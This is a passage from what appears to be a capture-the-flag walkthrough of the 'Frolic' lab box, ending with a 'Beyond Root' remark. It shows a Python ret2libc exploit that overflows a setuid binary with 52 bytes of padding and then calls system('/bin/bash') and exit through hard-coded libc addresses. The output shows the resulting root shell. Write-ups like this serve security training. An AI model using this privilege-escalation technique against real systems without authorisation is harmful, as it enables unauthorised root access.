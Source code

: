So we need a bit more than that

52 to be exact. From there I will look for system exit and /bin/bash in the libc binary and call them in that order after sending 52 bytes:

```bash
www-data@frolic:/tmp$ python2 script.py 
# cat script.py
import os
import struct 

base = struct.pack('<I', 0xb7e19000 + 0x0003ada0) # base system
exit = struct.pack('<I', 0xb7e19000 + 0x0002e9d0) # exit 
command = struct.pack('<I', 0xb7e19000 + 0x15ba0b) #command /bin/bash

buffer = "A" * 52 + base + exit + command 

os.system("/home/ayush/.binary/rop " + buffer)
# whoami
root
```


## Beyond Root

This was annoying box, I will not entertain the beyond root.